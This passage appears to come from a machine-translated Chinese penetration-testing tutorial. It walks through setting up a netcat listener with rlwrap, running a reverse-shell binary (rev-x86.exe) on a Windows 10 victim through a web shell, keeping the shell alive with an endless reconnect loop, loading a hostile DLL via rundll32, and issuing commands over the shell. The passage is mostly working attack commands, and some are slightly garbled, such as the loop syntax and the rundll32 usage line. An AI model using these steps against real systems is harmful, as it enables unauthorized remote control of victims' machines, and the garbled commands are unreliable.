 启动 netcat 监听器(端口 443)。使用 rlwrap 获得“doskey”感觉。

```
while; do rlwrap nc -nlvp 443 ; done
```

![](img/6971e244663ae142ff91d22096f80118.png)

10.在 192.168.62.165 上执行(受害计算机，Windows 10 web shell)

利用“命令执行”漏洞执行二进制文件并建立反向外壳。我们可以使用一个永恒的 for 循环来使这个 shell 更加稳定:

```
c:\Windows\Tasks\rev-x86.exe 192.168.62.161 443
```

![](img/97ec0853a80eba8f47c95771aa92b622.png)

我们有一个反向外壳连接！

备选方案:

在自动重新连接的循环中添加目标命令。

```
FOR /L %L IN (0,0,1) DO @(timeout /t 2 /nobreak >nul && c:\Windows\Tasks\rev-x86.exe 192.168.62.161 443)
```

10b。在 192.168.62.165 上执行(受害机器，Windows 10 web shell)。

对于某些攻击，您需要一个 Windows dll。可以在 Windows 命令行上用 rundll32 <command></command>、<function>执行 dll。</function>

```
c:\Windows\Tasks\rundll32 rev-x86.dll,test
```

# 远程命令执行

为了使用这个 shell，您必须执行带有前缀“cmd /c”或“powershell -c”的命令。例如 cmd /c whoami 或 powershell-c“whoami”

11.在 192.168.62.165 上执行(受害机，交互反壳)。

```
cmd /c "dir c:\"
powershell -c "whoami"
```
